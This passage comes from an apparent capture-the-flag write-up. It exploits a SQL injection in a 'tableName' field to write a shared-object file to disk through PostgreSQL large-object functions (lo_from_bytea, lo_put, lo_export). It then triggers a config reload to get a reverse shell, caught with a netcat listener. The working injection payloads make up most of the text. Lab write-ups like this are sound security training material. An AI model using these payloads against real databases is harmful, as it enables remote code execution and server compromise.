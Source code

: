 We make our fake data on 133343:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133343,'a'))%20AS%20text)--
```

We then use `lo_put` to put the real data:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_put(133343,0,decode('7f45...00','hex')))%20AS%20text)--
```

We then drop it to `/tmp/payload.so`:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133343,'/tmp/payload.so'))%20AS%20text)--
```

### Get the RCE
I reload the config:
```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20pg_reload_conf())%20AS%20text)--
```

Nothing...

I send it 5 more times...

Waiting...

After... MUCH ANTICIPATION
```
root@server:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [43.229.61.175] from (UNKNOWN) [83.136.252.133] 47678
/readflag
HTB{l00k_0ut_f0r_0auth_155u35}
```
